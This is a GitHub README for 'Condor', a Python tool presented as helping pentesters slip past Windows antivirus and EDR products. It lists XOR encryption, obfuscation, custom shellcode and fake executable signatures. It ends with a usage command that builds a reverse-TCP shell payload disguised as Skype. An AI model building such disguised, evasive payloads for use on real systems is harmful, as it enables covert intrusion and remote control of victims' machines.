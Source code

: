 <h1 align="center">「🛡️」About Condor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Condor is a tool created to help pentesters bypass protections like AVs/EDRs/XDRs in the Windows operating system. Condor was developed in Python and has several advantages to help pentesters.</p>

## Executable Scan

![](assets/scan.png)

## Benefits

* Easy to use
* Bypass multiple AVs/EDRs/XDRs
* Two XOR encryption process and an obfuscation
* The generated file is less than 7mb
* Using custom shellcode
* Fake signature on executable

## Environment support

| OS/Subsystem | Installation of All Requirements | Compilation | EXE Execution |
| ----------- | ----------- | ----------- | ----------- |
| Windows | ❌ | ✅ | ✅ |
| Linux | ✅ | ❌ | ❌ |
| Mac | not tested | not tested | not tested |
| WSL | ✅ | ✅ | ✅ |

## Help

![](assets/help.png)
[Reference](https://antiscan.me/scan/new/result?id=ioGKcbzBcSzj)


## Usage

It is recommended to run the tool in a WSL environment, as you will need to generate shellcodes using msfvenom and compile to EXE using pyinstaller.

```
$ git clone https://github.com/MrEmpy/Condor.git
$ cd Condor
$ chmod +x install.sh
$ sudo ./install.sh
...
$ python3 condor.py -p windows/x64/shell/reverse_tcp -lh <LOCAL HOST> -lp <LOCAL PORT> -i skype
```
